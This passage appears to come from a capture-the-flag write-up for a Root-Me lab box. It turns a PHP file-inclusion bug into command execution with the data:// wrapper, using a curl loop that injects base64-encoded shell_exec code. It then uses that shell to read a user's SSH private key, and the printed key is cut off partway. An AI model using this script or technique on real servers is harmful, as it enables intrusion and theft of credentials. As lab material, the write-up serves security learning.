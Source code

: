 We can even include non-`PHP` file:

```bash
http://ctf02.root-me.org/0f756638e0737f4a0de1c53bf8937a08/index.php?page=style.css
```

We tried a [two](https://github.com/wireghoul/dotdotpwn) [exploits](https://www.exploit-db.com/exploits/23170/) on this inclusion, but none worked...

Then we discovered that we could use [data:](http://php.net/manual/en/function.include.php#102731) with the `include` function.

The [first example](http://php.net/manual/en/wrappers.data.php) worked on the URL:

```bash
data://text/plain;base64,SSBsb3ZlIFBIUAo=
```

We created a bash script to handle this:

```zsh
while printf "\n> "; read line; do;
    curl -s `
        printf "http://ctf06.root-me.org/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data:text/plain;base64,"
        printf "<?php echo shell_exec('$line'); ?>" | base64
    ` |\
    tr '\n' '\r' | sed -e "s@.*<div id=\"content\">@@g" -e "s@</div>.*@@g" | tr '\r' '\n'
done;
```

Now we have a _shell_ access to the server.

```bash
> ls -la /home/mauk
total 28
drwxr-xr-x. 3 mauk mauk 4096 Jul  9  2013 .
drwxr-xr-x. 4 root root 4096 Feb 25  2013 ..
-rw-------. 1 mauk mauk   70 Jul  9  2013 .bash_history
-rw-r--r--. 1 mauk mauk   18 Apr 23  2012 .bash_logout
-rw-r--r--. 1 mauk mauk  193 Apr 23  2012 .bash_profile
-rw-r--r--. 1 mauk mauk  124 Apr 23  2012 .bashrc
drwxr-xr-x. 2 mauk mauk 4096 Jul  9  2013 .ssh

>  ls -la /home/mauk/.ssh/
total 20
drwxr-xr-x. 2 mauk mauk 4096 Jul  9  2013 .
drwxr-xr-x. 3 mauk mauk 4096 Jul  9  2013 ..
-rw-r--r--. 1 mauk mauk  397 Feb 24  2013 authorized_keys
-rw-r--r--. 1 mauk mauk 1679 Feb 24  2013 id_rsa
-rw-r--r--. 1 mauk mauk  397 Feb 24  2013 id_rsa.pub

> cat /home/mauk/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDmyb+scegJpO2dynsMJIgmVadSD17J+kndzMifXxTWW/llB/T3IZoPFp+5qV2lcI0yjfaZV
Bv1dDtzY3ux1J0COyBKNXRgb8hkZk1HIVLnxglBF1nnBG7p4oCVBWyz8urfPC4GxPw6b/X9wqlWAHe6Q+0oD3szmJLEvVVZZeDoZWgnp/rMiK
j8NkwULE5T1bKXuLyywSgHFCWaBmH2mdhiHCjtF/dFcEl4cOm5zWD6+iXa9E0AteogGUi1LTwyGhNpLRIr6kP3w5TfgzvjlTkyjhOAWNhz54P
vF7DJ25a5Lki4U93F9weS3RxDuF7QBge6TmigIjhxrcHTFxJkgtar mauk@Relativity

> cat /home/mauk/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA5sm/rHHoCaTtncp7DCSIJlWnUg9eyfpJ3czIn18U1lv5ZQf0
9yGaDxafualdpXCNMo32mVQb9XQ7c2N7sdSdAjsgSjV0YG/IZGZNRyFS58YJQRdZ
5wRu6eKAlQVss/Lq3zwuBsT8Om/1/cKpVgB3ukPtKA97M5iSxL1VWWXg6GVoJ6f6
zIio/DZMFCxOU9Wyl7i8ssEoBxQlmgZh9pnYYhwo7Rf3RXBJeHDpuc1g+vol2vRN
ALXqIBlItS08MhoTaS0SK+pD98OU34M745U5Mo4TgFjYc+eD7xewyduWuS5IuFPd
xfcHkt0cQ7he0AYHuk5ooCI4ca3B0xcSZILWqwIDAQABAoIBAHNnIMxXLQNdkGAd
```